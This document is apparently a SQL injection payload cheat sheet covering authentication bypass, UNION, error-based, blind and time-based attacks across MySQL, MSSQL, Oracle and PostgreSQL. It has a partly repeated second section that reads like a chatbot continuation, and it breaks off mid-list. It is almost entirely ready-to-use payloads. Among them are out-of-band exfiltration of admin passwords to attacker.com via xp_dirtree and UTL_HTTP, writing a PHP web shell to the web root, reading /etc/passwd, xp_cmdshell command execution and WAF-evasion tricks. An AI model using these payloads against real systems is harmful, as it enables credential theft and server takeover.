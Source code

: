 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```


---

### **2. UNION-Based Attacks**
Extract data from other tables using `UNION SELECT`:
```sql
' UNION SELECT 1,2,3 -- 
' UNION SELECT username, password, NULL FROM users -- 
```

---

### **3. Error-Based SQLi**
Trigger database errors to extract information:
```sql
' AND (SELECT 0 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- 
```

---

### **4. Boolean-Based Blind SQLi**
True/False conditions to infer data:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a' -- 
```

---

### **5. Time-Based Blind SQLi**
Delay-based inference:
```sql
'; IF (SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a') WAITFOR DELAY '0:0:5' -- 
```

---

### **6. Out-of-Band Data Exfiltration**
Exfiltrate data via DNS/HTTP requests:
```sql
'; DECLARE @data VARCHAR(1024); SET @data=(SELECT password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```

---

### **7. File System Access**
Read/write files (if DB permissions allow):
```sql
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL -- 
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php' -- 
```

---

### **8. Database-Specific Payloads**

#### **MySQL / MariaDB**
```sql
-- Version check  
SELECT @@version  

-- List databases  
SELECT schema_name FROM information_schema.schemata

```
Continue from Database specific payloads

 Here's the continuation of database-specific SQL injection payloads:

---

### **8. Database-Specific Payloads (Continued)**

#### **MySQL / MariaDB (Continued)**
```sql
-- List tables in current database  
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()  

-- List columns in a table  
SELECT column_name FROM information_schema.columns WHERE table_name = 'users'  

-- String concatenation  
SELECT CONCAT(username, ':', password) FROM users  

-- Conditional time delay  
SELECT IF(1=1, SLEEP(5), 0)  
```

#### **PostgreSQL**
```sql
-- Version check  
SELECT version()  

-- List databases  
SELECT datname FROM pg_database  

-- List tables  
SELECT table_name FROM information_schema.tables  

-- String concatenation  
SELECT username || ':' || password FROM users  

-- Conditional time delay  
SELECT pg_sleep(5) FROM users WHERE username='admin'  
```

#### **Microsoft SQL Server**
```sql
-- Version check  
SELECT @@version  

-- List databases  
SELECT name FROM master..sysdatabases  

-- List tables in current DB  
SELECT table_name FROM information_schema.tables  

-- Conditional time delay (SQL Server)  
IF (1=1) WAITFOR DELAY '0:0:5'  

-- Command execution (if xp_cmdshell enabled)  
EXEC xp_cmdshell 'whoami'  
```

#### **Oracle**
```sql
-- Version check  
SELECT * FROM v$version  

-- List tables owned by current user  
SELECT table_name FROM user_tables  

-- String concatenation  
SELECT username || ':' || password FROM users  

-- Conditional time delay (DBMS_LOCK.SLEEP requires privileges)  
BEGIN DBMS_LOCK.SLEEP(5); END; -- 
```

---

### **9. Bypassing WAF/Filtering Techniques**

```sql
/* Case switching */
' UnIoN SeLeCt 1,2,3 -- 

/* Whitespace alternatives */
'UNION/**/SELECT/**/1,2,3--

/* Comment obfuscation */
' UNION SELECT/*random*/1,password/*random*/FROM users--

/* Hex encoding */
' UNION SELECT 0x61646d696e,2,3 --  /* "admin" in hex */

/* CHAR() function */
